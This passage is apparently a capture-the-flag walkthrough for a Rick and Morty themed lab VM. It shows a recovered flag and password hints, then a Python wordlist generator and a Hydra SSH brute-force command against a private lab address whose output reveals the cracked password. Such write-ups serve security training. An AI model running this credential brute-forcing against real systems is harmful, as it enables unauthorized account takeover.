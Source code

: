 ```
```
Run file now with password
```
[Summer@localhost tmp]$ ./safe 131333
decrypt: 	FLAG{And Awwwaaaaayyyy we Go!} - 20 Points
```
```
Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.�	@
[Summer@localhost tmp]$ 
```

FLAG found
```
FLAG{And Awwwaaaaayyyy we Go!} - 20 Points
```

## Write Script to enumerate Passwords
### Python & Hydra
Needed to find band Name
```
cat password.py 
#!/usr/bin/python

import string

for c in string.ascii_uppercase:
    for x in range(0,10):
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"
```

python password.py > password.txt

Ran Hydra with password file

```
hydra -s 22222 -v -V -l RickSanchez -P passwords.txt -t 16 192.168.253.128 ssh

[22222][ssh] host: 192.168.253.128   login: RickSanchez   password: P7Curtains
[STATUS] attack finished for 192.168.253.128 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2018-08-14 23:19:00
```
